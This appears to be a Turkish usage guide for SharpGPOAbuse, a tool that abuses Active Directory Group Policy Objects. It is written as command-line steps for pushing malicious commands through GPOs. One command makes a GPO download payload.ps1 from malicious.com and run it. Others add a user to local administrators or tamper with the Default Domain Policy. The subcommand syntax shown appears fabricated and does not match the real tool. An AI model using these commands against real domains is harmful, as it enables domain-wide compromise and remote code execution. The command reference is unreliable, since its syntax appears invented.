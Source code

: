 c# SharpGPOAbuse.exe Kullanım Kılavuzu

## Giriş
SharpGPOAbuse, Active Directory ortamlarında Grup Politika Nesnelerini (GPO) kötüye kullanarak yetki yükseltmek veya sistem üzerinde kontrol sağlamak için tasarlanmış bir siber güvenlik aracıdır. Bu araç, yanlış yapılandırılmış veya güvenlik açıkları barındıran GPO nesnelerinden yararlanabilir.

---

## Özellikler
- **Yetki Eskalasyonu**: Yanlış yapılandırılmış GPO nesnelerinden yararlanarak yetki yükseltme.
- **GPO Manipülasyonu**: Çeşitli saldırı teknikleri ile GPO nesnelerini değiştirme.
- **Yerleşik Destek**: Yüksek düzeyde özelleştirilmiş saldırı senaryoları oluşturma.

---

## Gereksinimler
- Windows işletim sistemi
- Active Directory ortamında yeterli erişim
- .NET Framework yüklü olmalıdır

---

## Komut Satırı Kullanımı

### Yardım Mesajını Görüntüleme
SharpGPOAbuse'un yardım mesajını görmek için:
```cmd
SharpGPOAbuse.exe -h
```

### Yeni Bir GPO Nesnesi Oluşturma
Bir GPO nesnesi oluşturarak hedef sisteme zararlı bir komut eklemek için:
```cmd
SharpGPOAbuse.exe create -name "Yeni_GPO" -command "C:\Temp\malicious.bat"
```

### Mevcut Bir GPO Nesnesine Komut Eklemek
Var olan bir GPO nesnesine zararlı bir komut eklemek için:
```cmd
SharpGPOAbuse.exe modify -name "Hedef_GPO" -command "powershell.exe -ep bypass -Command \"Invoke-WebRequest -Uri http://malicious.com/payload.ps1 -OutFile C:\Temp\payload.ps1; C:\Temp\payload.ps1\""
```

### GPO Nesnesini Silme
Bir GPO nesnesini kaldırmak için:
```cmd
SharpGPOAbuse.exe delete -name "Silinecek_GPO"
```

### GPO Nesnesine Kullanıcı veya Grup Ekleme
Bir GPO nesnesine yeni bir kullanıcı veya grup eklemek için:
```cmd
SharpGPOAbuse.exe add-permission -name "Hedef_GPO" -user "DOMAIN\Kullanici" -permission "FULLCONTROL"
```

### GPO İle Sistem Servisini Manipüle Etme
Bir GPO nesnesine sistem servisini değiştirecek bir betik eklemek için:
```cmd
SharpGPOAbuse.exe abuse -name "Hedef_GPO" -service "HedefServis" -command "net localgroup administrators DOMAIN\HedefKullanici /add"
```

---

## Örnek Kullanımlar

### Varsayılan Domain Policy'yi Manipüle Etme
Varsayılan Domain Policy'sine zararlı bir PowerShell komutu eklemek için:
```cmd
SharpGPOAbuse.exe modify -name "Default Domain Policy" -command "powershell.exe -ep bypass -Command \"Start-Process cmd -ArgumentList '/c whoami > C:\Temp\output.txt'\""
```

### Tüm GPO Nesnelerini Listeleme
Active Directory'deki tüm GPO nesnelerini listelemek için:
```cmd
SharpGPOAbuse.exe list
```

### JSON Formatında GPO Verilerini Kaydetme
Mevcut GPO nesnelerini JSON formatında bir dosyaya kaydetmek için:
```cmd
SharpGPOAbuse.exe list -format json -output "C:\Temp\gpo_data.json"
```

---

## Derleme Talimatları
SharpGPOAbuse kaynak koddan derlenebilir.

### Adımlar:
1. Visual Studio Community Edition'ı yükleyin.
2. Projeyi açın (`SharpGPOAbuse.sln`).
3. Çözüm yapılandırmasını "Release" olarak seçin.
4. Projeyi derleyin.

---

## Kaynaklar
- [SharpGPOAbuse GitHub](https://github.com/GhostPack/SharpGPOAbuse)
- [GhostPack Belgeleri](https://posts.specterops.io/)

Bu rehber, SharpGPOAbuse aracını kullanmanın temel adımlarını kapsamaktadır. Daha fazla bilgi için yukarıdaki bağlantılara göz atabilirsiniz.
